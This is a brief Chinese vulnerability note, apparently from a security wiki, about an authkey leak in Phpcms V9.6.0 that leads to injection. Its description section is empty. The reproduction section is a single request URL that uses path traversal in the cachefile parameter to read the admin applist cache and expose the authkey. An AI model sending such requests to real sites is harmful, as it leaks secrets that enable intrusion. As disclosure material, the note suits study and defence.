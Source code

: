 Phpcms V9.6.0 authkey泄露导致注入
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

    http://www.0-sec.org/api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin
